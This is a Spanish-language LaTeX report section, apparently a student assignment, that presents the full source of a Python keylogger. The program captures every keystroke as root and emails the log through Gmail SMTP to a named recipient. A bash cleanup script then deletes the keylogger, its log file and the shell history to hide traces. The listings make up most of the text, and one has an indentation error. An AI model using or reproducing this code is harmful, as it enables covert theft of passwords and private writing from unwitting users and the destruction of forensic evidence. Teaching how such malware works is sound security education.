\section{Desarrollo}
Para esta sección realizamos un keylogger de software que corre bajo terminal en modo de súper usuario ya que las bibliotecas que usamos así nos lo pide. En esta parte iremos explicando las partes que conforman el código.

Lo primero que analizaremos serán las importaciones del programa.

\begin{lstlisting}[language = Python, caption = importaciones del archivo k-log.py]
import keyboard
import os
from dotenv import load_dotenv
from email.message import EmailMessage
import ssl
import smtplib
import subprocess

bash_command = "./cleanup.sh"

load_dotenv()

# Variables globales
log = ""
email_sender = "killerhaans@gmail.com"
password = os.getenv("PASSWORD")
email_reciver = "jesuslopez@ciencias.unam.mx"
\end{lstlisting}

Aquí de lo mas importante que hay que realizar ya que para poder usar smtplib hay que realizar los pasos que muestra el vídeo \cite{youtube2} para poder tener la contraseña de la cuenta que va a enviar el correo ya que por seguridad google bloquea todo intento de usar el inicio de sesión si no es por medio de esas contraseñas especiales para aplicaciones y por otro lado y para no poner la contraseña directo en el archivo la ponemos como variable de entorno en un archivo .env pero antes necesitaremos instalar dotenv con el siguiente comando.

\begin{lstlisting}[lenguage = bash, caption = codigo para instalar dotenv]
    $ pip install python-dotenv
\end{lstlisting}

Algo importante es que la variable global log es donde iremos guardando las cadenas de lo que se ha escrito. la variable bash\_command es la que lleva la ruta del script para limpiar los rastros del programa.

Ahora veremos la función que envía los correos.

\begin{lstlisting}[language = Python, caption = funcion send\_email del archivo k-log.py]
# Funcion para el envio de correo
def send_email(log):
    msg = EmailMessage()
    msg["From"] = email_sender
    msg["To"] = email_reciver
    msg["Subject"] = "Keylogger"
    msg.set_content(log)

    context = ssl.create_default_context()

        with smtplib.SMTP_SSL("smtp.gmail.com", 465, context=context) as server:
            server.login(email_sender, password)
            server.send_message(msg)

\end{lstlisting}

de esta función empezamos a crear el email llenando de parte de quien para quien el asunto y el contenido lo cual sera log  el que iremos llenando por ultimo usamos SSL para mandar el archivo cifrado el cual se vera de la siguiente manera. Ver Figura 1.

\begin{figure}
    
\includegraphics[width=1\textwidth]{Images/emailsended.png}
    \caption{e-mail enviado por medio del programa.}
\end{figure}

Ahora veremos la función para capturar las teclas.

\begin{lstlisting}[language = Python, caption = funcion on\_key del archivo k-log.py]
# Funcion para capturar las teclas presionadas
def on_key(event):
    global log
    if(event.name == 'space'):
        log += ' '
    elif(event.name == 'enter'):
        log += '\n'
    elif(event.name == 'backspace'):
        log = log
    else:
        log += event.name
\end{lstlisting}

Aquí checamos que tecla se presiono en el sistema y en particular en lugar de pasar la designación de space para la barra espaciadora pasamos un espacio en blanco, para enter un salto de linea y para backspace simple mente lo ignoramos, de ahí en fuera capturamos absolutamente todo.

Ahora veremos la función para salvar en un archivo.

\begin{lstlisting}[language = Python, caption = funcion save\_to\_filedel archivo k-log.py]
# Funcion para guardar los datos en un archivo de texto
def save_to_file(log):
    with open("keylog.txt", "w") as f:
        f.write(log)
    print("Los datos han sido guardados en 'keylog.txt'.")
\end{lstlisting}

En este código simplemente abrimos un archivo llamado keylog.txt en el cual escribiremos todo lo que contenga log.

Ahora la función menu.

\begin{lstlisting}[language = Python, caption = funcion menu del archivo k-log.py]
# Funcion para mostrar el menu
def menu():
    print("¿Qué te gustaría hacer con los datos capturados?")
    print("1. Guardar en un archivo de texto")
    print("2. Enviar por correo electrónico")
    choice = input("Ingresa tu elección (1 o 2): ")
    return choice
\end{lstlisting}

En este código solo regresamos la opción ya sea 1 o 2. (al momento de escribir este reporte nos percatamos que tronara al no hacer chequeo de la entrada).

Por ultimo la función main.

\begin{lstlisting}[language = Python, caption = funcion main del archivo k-log.py]
# Funcion principal
def main():
    global log
    choice = menu()
    keyboard.on_press(on_key)
    
    print("Keylogger en ejecución... Presiona 'ESC' para detener.")

    keyboard.wait('esc')

    if choice == '1':
        save_to_file(log)
    elif choice == '2':
        send_email(log)
    else:
        print("Elección no válida.")
    
    try:
        subprocess.run(bash_command)
    except Exception as e:
        print("Error al ejecutar el script de limpieza.")

\end{lstlisting}

Aquí en esta función aplicamos todas las vistas anterior mente en su orden especifico y al ultimo tratamos de correr el script para borrar todo. y el script de bash contiene lo siguiente.

\begin{lstlisting}[language = bash, caption = archivo cleanup.sh]
#!/bin/bash

# Obtener la ruta del directorio del script
SCRIPT_DIR=$(dirname "$(realpath "$0")")

# Nombre del archivo del keylogger
KEYLOGGER_SCRIPT="k-log.py"
KEYLOG_FILE="keylog.txt"

# Paso 1: Eliminar archivos del keylogger
echo "Eliminando archivos del keylogger..."
rm -f "$SCRIPT_DIR/$KEYLOGGER_SCRIPT"
rm -f "$SCRIPT_DIR/$KEYLOG_FILE"

# Paso 2: Limpiar el historial de comandos
echo "Limpiando el historial de comandos..."
history -c
echo "" > ~/.bash_history

# Mensaje final
echo "Limpieza completa. El keylogger y sus rastros han sido eliminados."

\end{lstlisting}

Aquí lo primero que hacemos es buscar la ruta absoluta al archivo para después poder usarlo para remover los archivos después limpiamos el historial de bash (en particular esto no me funciono en kali pero si en ubuntu).